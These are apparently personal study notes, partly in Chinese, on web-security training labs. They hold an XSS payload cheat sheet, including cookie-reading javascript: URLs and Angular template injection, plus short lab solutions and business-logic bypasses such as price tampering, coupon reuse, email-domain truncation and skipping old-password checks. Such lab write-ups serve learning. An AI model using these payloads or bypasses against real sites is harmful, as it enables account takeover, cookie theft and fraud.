 ## XSS

*   cheat sheet

    ```html
    <script>alert(1)</script>
    "><script>alert(1)</script>  "><svg onload=alert(1)>
    <img src=1 onerror=alert(1)>
    javascript:alert(document.cookie)
    <iframe src="<website>/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
    "onmouseover="alert(1)
    apache';alert(1);'
    {{$on.constructor('alert(1)')()}}
    ```

1.    反射 xss

2.    存储 xss

3.    dom型xss，先闭合标签

4.   dom xss，但是<> 会被转义 ,但是直接输入一整个标签则不会

5.   dom xss returnPath存在注入 `returnPath=javascript:alert(document.cookie)`

6.   dom xss,使用iframe标签嵌入xss

7.   dom xss,闭合 “插入事件

8.   反射,输入会插入js代码中,直接闭合就可以

9.   反射

     >   1.  On the product pages, notice that the dangerous JavaScript extracts a `storeId` parameter from the `location.search` source. It then uses `document.write` to create a new option in the select element for the stock checker functionality.

     我怎么就notice不到...

     ![image-20230415013403077](https://gitee.com/leiye87/typora_picture/raw/master/20230415013405.png)payload:

     ```
     "></select><img%20src=1%20onerror=alert(1)>
     ```

     ​	

10.   DOM XSS in Angular,可以看到网站用的是 `Angular`,这里提到了一个 `cilent-side-template-injection`




## 逻辑漏洞
### 1
需要购买一个价格为1337的商品
流程:
添加购物车 post 商品参数+商品价格(可修改)
购买      /cart/checkout

### 2

没有了价格参数,剩下三个参数
```bash
productId=1&redir=PRODUCT&quantity=1
```

要求商品总价格为正,修改数量为1,其他商品数量为负数
### 3
登录后切换邮箱不需要验证,修改为内网邮箱,即可删除用户
### 4
新增了优惠券代码
post 优惠券代码->无法修改价格

有俩张,交替使用绕过<已使用限制>

### 5
整数溢出

### 6
邮件域名截取
构造一个很长的邮件域名
```bash
#成功接收到邮件
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaattacker@exploit-0a38003f04cdeef88178b63d010d0098.exploit-server.net
#截取了255位
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaattacker@exploit-0a38003f04cdeef88178b63d010d0098.expl
```
构造如下邮件,子域名
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa@dontwannacry.com.attacker.exploit-0a38003f04cdeef88178b63d010d0098.exploit-server.net
截取255位后变为
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa@dontwannacry.com
成功绕过

### 7
重置密码删除oldpassword参数,能成功绕过旧密码校验

### 8
checkout后会访问一个order-confirm
直接访问order-confirm也可绕过金额限制

### 9
登录后有一个角色选择,drop请求,默认为admin

### 10
